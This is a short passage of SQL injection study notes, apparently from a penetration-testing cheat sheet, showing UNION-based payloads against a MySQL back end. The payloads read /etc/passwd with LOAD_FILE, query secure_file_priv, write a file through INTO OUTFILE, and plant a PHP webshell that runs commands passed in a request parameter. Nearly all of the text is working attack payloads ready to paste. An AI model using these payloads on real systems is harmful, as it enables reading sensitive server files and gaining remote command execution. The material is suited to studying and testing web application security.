 ```sql
# Injection
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```

### <mark style="color:yellow;">Writing Files</mark>

To write files we need three things:

1. User with `FILE` privilege enabled
2. MySQL global `secure_file_priv` variable not enabled
3. Write access to the location we want to write to on the back-end server

#### secure\_file\_priv

Secure\_file\_priv says where to read/write files from, empty value means entire system.&#x20;

```sql
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```

#### SELECT INTO OUTFILE

The [SELECT INTO OUTFILE](https://mariadb.com/kb/en/select-into-outfile/) statement can be used to write data from select queries into files.

```sql
cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -
```

Or a webshell

```sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```

\
